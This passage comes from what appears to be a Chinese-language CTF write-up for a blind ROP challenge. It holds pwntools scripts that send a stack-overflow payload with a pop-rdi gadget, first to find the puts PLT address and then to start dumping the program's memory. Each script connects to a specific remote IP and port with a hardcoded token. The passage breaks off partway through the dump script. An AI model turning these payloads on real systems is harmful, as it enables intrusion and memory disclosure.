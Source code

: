 ```python
from pwn import *
context.log_level = 'debug'
def exp1():
    io = remote('115.28.78.54', 13455)
    io.recvuntil('token:')
    io.sendline('b66888c818c08d932ea91b8d6a1f122c2y7ZAdbh')
    base = 0x400000
    pop_rdi_ret = 0x4007c3

    for offset in range(0x500,0x1000):
        addr = base + offset
        payload = 'a'*72+p64(pop_rdi_ret)+p64(0x0400000)+p64(addr)
        io.recvuntil('WelCome my friend,Do you know password?')
        io.sendline(payload)
        
    io.interactive()
exp1()
```
经过测试这样的地址不只一个，我们选其中一个：0x400570
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-03-Hctf-fuzzPwn/5.png)

#### 6. 泄露内存
现在我们知道了 0x4007c3是'pop rdi,ret'，0x400570是puts函数的plt表地址,综合起来也就可以完成任意内存泄露的效果。

我们泄露程序的代码段内存（0x0400000-0x0401000，大小随意）和程序数据段内存（0x601000-0x602000，大小随意）

```python
from pwn import *
 
debug=0
local=0
context.log_level='debug'
 
def exp4():
#---------------------init args
    if local:
        puts_plt=0x400530
        pop_rdi_ret=0x4007a3
        main_addr=0x400696
    else:
        puts_plt=0x400571
        pop_rdi_ret=0x4007c3
        main_addr=0x4006bd
 
    if debug:
        io=process('./test')
        gdb.attach(pidof('test')[-1],open('aa'))
    else:
        if local:
            io=remote('127.0.0.1',2333)
        else:
            io=remote('115.28.78.54',13455)
            io.recvuntil('token:')
            io.sendline('b66888c818c08d932ea91b8d6a1f122c2y7ZAdbh')
#---------------------dump code section
    base=0x400000  
    d=''
    while True:
        print'd='+d
        try:
            io.recvuntil('Do you know password?\n')
            payload='a'*72+p64(pop_rdi_ret)+p64(base+len(d))+p64(puts_plt)+p64(main_addr)
            #payload='a'*48
```